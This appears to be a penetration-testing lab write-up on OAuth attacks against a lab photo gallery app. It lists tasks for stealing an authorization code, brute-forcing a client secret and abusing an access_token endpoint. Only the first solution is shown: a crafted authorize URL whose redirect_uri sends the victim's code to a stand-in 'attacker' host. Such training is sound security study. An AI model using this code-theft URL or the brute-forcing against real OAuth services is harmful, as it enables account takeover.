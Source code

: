 ![Alt text](/assets/images/posts/ewptx/100.png){: .align-center}


## Lab 

Network Configuration
```
- The target application can be found at http://gallery:3005
- The username is koen and the password is password.
```

### Tasks

Task 1. Create a code stealing PoC:
```
- Craft an URL that can be sent to a victim in order to steal the authorization code once he/she logs in into the /oauth endpoint. 
- You can use the following data: the response type is "code", the scope is "view_gallery" and the client_id is "photoprint".
```

Task 2. Use the acquired code to bruteforce the client secret:
```
- Use a POST request to the /token endpoint in order to bruteforce the  client secret. 
- Consult with OAuth's documentation to recreate the  request. The grant type is "authorization_code"
```
Task 3. Discover another token vulnerability:
```
- Discover another vulnerability by abusing the /photos/me?access_token= endpoint.
```


### Solutions
Below, you can find solutions for each task. Remember though, that  you can follow your own strategy, which may be different from the one  explained in the following lab.

Task 1. Create a code stealing PoC

Based on OAuth's documentation available on https://tools.ietf.org/html/rfc6749 you can construct the following GET request. Note that you have to be logged out upon visiting this URL. 
```
http://gallery:3005/oauth/authorize?response_type=code&redirect_uri=http%3A%2F%2Fattacker%2Fcallback&scope=view_gallery&client_id=photoprint
```
